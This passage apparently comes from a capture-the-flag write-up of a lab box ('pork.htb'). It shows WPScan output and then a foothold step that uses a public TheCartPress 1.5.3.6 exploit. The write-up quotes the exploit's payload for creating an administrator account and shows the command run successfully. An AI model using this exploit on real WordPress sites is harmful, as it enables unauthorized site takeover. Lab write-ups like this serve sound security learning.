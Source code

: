 ```                                                                                                                               

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Oct 21 11:51:43 2021
[+] Requests Done: 177
[+] Cached Requests: 5
[+] Data Sent: 50.529 KB
[+] Data Received: 451.011 KB
[+] Memory used: 215.66 MB
[+] Elapsed time: 00:00:03
```

### Foothold

Get information that Wordpress uses TheCartPress 1.5.3.6 Plugin, the exploit can be seen in [exploit-db](https://www.exploit-db.com/exploits/50378) 

After downloading it we can see several lines of information related to the exploit, then find the user and password to be created.

```
       data = {
        "tcp_new_user_name" : "admin_02",
        "tcp_new_user_pass" : "admin1234",
        "tcp_repeat_user_pass" : "admin1234",
        "tcp_new_user_email" : "test@test.com",
        "tcp_role" : "administrator"
        }
```

Run with `python3 epxloit.py http://pork.htb`

```
┌──(root💀kali)-[~/htb/pork]
└─# python3 exploit.py http://pork.htb                                                                             
TheCartPress <= 1.5.3.6 - Unauthenticated Privilege Escalation
Author -> space_hen (www.github.com/spacehen)
Inserting admin...
Success!
Now login at /wp-admin/
```

login to wordpress with the user and password created by the exploit 
